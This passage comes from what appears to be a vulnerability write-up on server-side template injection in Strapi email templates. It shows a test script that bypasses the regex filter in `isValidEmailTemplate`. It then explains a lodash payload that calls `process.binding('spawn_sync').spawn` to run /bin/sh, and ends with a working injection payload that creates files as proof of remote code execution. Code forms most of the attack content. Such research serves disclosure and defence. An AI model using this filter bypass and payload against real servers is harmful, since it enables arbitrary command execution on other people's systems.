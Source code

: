 ```js
};

let blockedTemplate = '<%= I am blocked %>';
let bypassTemplate = '<%= I am not blocked because I have <>%=! %>';

let tests = [blockedTemplate, bypassTemplate];

tests.forEach((template) => {
  console.log(`template: ${template}`);
  if (validKeyInTemplate(template)) {
    console.log('Bypassed the Regex Filter!');
  } else {
    console.log('Was blocked :(');
  }
});
```

![](./images/bypassing-name-check.png)

### Putting it All Together

Now that I had discovered a bypass for the regex filters in `isValidEmailTemplate`, I needed to reorganise my SSTI payload to bypass validation.

Firstly, the `lodash` SSTI payload in [this tweet](https://twitter.com/rootxharsh/status/1268181937127997446?lang=en) is just a fancy way to execute `process.binding("spawn_sync").spawn` with the following Object as an input parameter.

```js
{
    file: "/bin/sh",
    args: ["/bin/sh", "-c", "id"],
    stdio: [
        {"type": "pipe", "readable": 1, "writable": 1},
        {"type": "pipe", "readable": 1, "writable": 1}
    ]
}
```

Since JavaScript Objects can be declared using `{}` characters, I could bypass the regex pattern `/\${([^{}]*)}/m` by simply changing the input for `process.binding("spawn_sync").spawn` from a variable that is constructed within the payload to a single Object using `{}` (shown below).

```text
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/sh","args":["/bin/sh","-c","mkdir /tmp/strapi-confirm; touch /tmp/strapi-confirm/rce"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"}]}).output }` %>
```
